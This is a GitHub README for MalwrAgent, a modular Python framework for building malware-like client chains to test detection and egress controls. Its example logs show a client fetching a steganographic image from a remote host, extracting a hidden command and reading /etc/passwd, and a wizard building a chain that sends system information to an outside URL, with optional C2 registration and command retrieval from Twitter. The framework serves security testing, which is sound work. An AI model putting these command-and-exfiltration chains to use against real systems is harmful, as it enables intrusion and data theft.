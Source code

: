      __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  

    -- .- .-.. .-- .-. .- --. . -. - 

[![Code Climate](https://codeclimate.com/github/michaelschratt/MalwrAgent/badges/gpa.svg)](https://codeclimate.com/github/michaelschratt/MalwrAgent) [![Codacy Badge](https://api.codacy.com/project/badge/Grade/ac34274f76e742f089e82684c2e50dee)](https://www.codacy.com/app/bl4ckw0rm/MalwrAgent?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=michaelschratt/MalwrAgent&amp;utm_campaign=Badge_Grade)

### About MalwrAgent

#### THIS PROJECT IS STILL IN ALPHA STATE

Hello Agent M! Welcome to the MalwrAgency. The MalwrAgent enables you test your current detection & prevention capabilities in just a few simple steps. The idea is to offer a framework of different modules you can connect to make up a chain. For example, egress testing can be established by connecting multiple HTTP POST and HTTP GET requests. 

Threat actors tend to use more sophisticated techniques like steganography. This technique is not only applied during infiltration but also used for data exfiltration based on video or image steganography.
Following log output demonstrates the download of an image that contains a hidden string. This string is then used as an input argument for the Command module. Finally, `cat /etc/passwd` is executed. 

    bl4ckw0rm@einsteinium > python malwragent.py -l -c myChains/Stego.json --log 3
    INFO:root:client: Checking f_retrieve_image with parameters {u'url': u'http://mfs-enterprise.com/agency/stego.png'}
    INFO:root:client: Checking f_extract_text_from_image with parameters None
    INFO:root:client: Checking f_exec_system with parameters None
    Autopilot takes over in
       3
       2
       1
    INFO:root:myChains/Stego: Chain CLIENT running
    INFO:root:myChains/Stego: Running function f_retrieve_image from module Web with input <None> and args <{u'url': u'http://mfs-enterprise.com/agency/stego.png'}>
    INFO:root:myChains/Stego: Running Transportation module malwragent.packages.modules.web.Web - Args: {'settings': {u'function': u'f_retrieve_image', 'input': None, u'args': {u'url': u'http://mfs-enterprise.com/agency/stego.png'}}}
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): mfs-enterprise.com
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): www.mfs-enterprise.com
    INFO:root:myChains/Stego: Running function f_extract_text_from_image from module Stego with input <<cStringIO.StringI object at 0x10be7fad0>> and args <None>
    INFO:root:myChains/Stego: Running Transformation module malwragent.packages.modules.stego.Stego - Args: {'settings': {u'function': u'f_extract_text_from_image', 'input': <cStringIO.StringI object at 0x10be7fad0>, u'args': None}}
    INFO:root:myChains/Stego: Running function f_exec_system from module Command with input <cat /etc/passwd> and args <None>
    INFO:root:myChains/Stego: Running Post module malwragent.packages.modules.command.Command - Args: {'settings': {u'function': u'f_exec_system', 'input': 'cat /etc/passwd', u'args': None}}
    INFO:root:myChains/Stego: Chain CLIENT finished
    ^C
    Bye, Bye

Just as one likes, you could use any other module to invoke an action on the previous output. And so on ... But in the end, you should have an eye at your detection & prevention products, and develop new defensive strategies. 

### Get started

    bl4ckw0rm@einsteinium > python malwragent.py
    usage: malwragent.py [-h] [-l] [-w] [-c CONFIGFILE] [-i INTERVAL]
                         [--log {1,2,3,4}] [-V]
    
    optional arguments:
      -h, --help            show this help message and exit
      -l, --load            load and run chain from a configuration file.
      -w, --wizard          create and save a chain to configuration file
      -c CONFIGFILE, --configfile CONFIGFILE
                            configuration file name, default: config.json
      -i INTERVAL, --interval INTERVAL
                            interval for periodic chain execution, default: 10
                            seconds
      --log {1,2,3,4}       increase logging output verbosity
      -V, --version         show program's version number and exit
    
You can use the wizard to create a new client. A client consists of a chain of modules. The chain is stored in JSON format.

    bl4ckw0rm@einsteinium > python malwragent.py -w -c myChains/test             
    #   __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    #  |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    #  |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    #  |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    #  |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    #  | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    #  |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  
    #
    #   -- .- .-.. .-- .-. .- --. . -. - 
    #
    #  Hello Agent M! Welcome to the MalwrAgency. Use our MalwrAgent to create your 
    #  highly flexible and easy to use Malwr. Please go ahead ...
    #
    #  Do you want your client to register with C2-Server? (Y|N) \> n
    #  Choose from our list of modules. What do you want the client to do?
    #
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> m
    
    function                         type            module         choice
    -------------------------------  --------------  -----------  --------
    f_exec_system                    Post            Command             0
    f_base64_decode                  Transformation  Crypto              1
    f_base64_encode                  Transformation  Crypto              2
    f_md5                            Transformation  Crypto              3
    f_sha1                           Transformation  Crypto              4
    f_sha256                         Transformation  Crypto              5
    f_get_platform                   Post            Enumeration         6
    f_get_platform_machine           Post            Enumeration         7
    f_get_platform_processor         Post            Enumeration         8
    f_get_platform_system            Post            Enumeration         9
    f_get_platform_uname             Post            Enumeration        10
    f_get_platform_version           Post            Enumeration        11
    f_extract_text_from_image        Transformation  Stego              12
    f_grab_cmd_from_twitter_profile  Transportation  Twitter            13
    f_http_get                       Transportation  Web                14
    f_http_post                      Transportation  Web                15
    f_retrieve_image                 Transportation  Web                16
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 
    
    Adding function f_get_platform_uname from module Enumeration done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 14
    
    Please provide the following arguments: url
    
    # +[url] \> http://mfs-enterprise.com/agency/?info=
    
    Adding function f_http_get from module Web done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> n
    #
    #  Do you want to review your chain? (Y|N) \> y
    
    function              type            module       chain    arguments
    --------------------  --------------  -----------  -------  --------------------------------------------------
    f_get_platform_uname  Post            Enumeration  CLIENT
    f_http_get            Transportation  Web          CLIENT   {'url': 'http://mfs-enterprise.com/agency/?info='}
    
    #  Do you want to save the chain as myChains/test.json? (Y|N) \> y
    
    See you then. Use 'malwragent.py -l -c myChains/test.json' to run your client.

### Write your own modules

TBD

### Support

Just drop me a line. Please, use contact information from below.

### Supported Operating Systems

Linux, macOS

### Contribute

Feel free to browse through open issues and help where you can.

### Contact Information

Name: Michael Schratt

Twitter: [@bl4ckw0rm](https://twitter.com/bl4ckw0rm)

Email: github@mfs-enterprise.com

### Licence

Attribution-NoDerivatives 4.0 International (CC BY-ND 4.0)

Visit [https://creativecommons.org/licenses/by-nd/4.0/](https://creativecommons.org/licenses/by-nd/4.0/) for further information

#### Disclaimer

All the information provided on this site are for educational purposes only. The site or the authors are not responsible for any misuse. Do not use the information to write malicious software. Use the information to expand knowledge and improve current or future detection & prevention technology. Use at your own risk. Breaking into computer systems is illegal.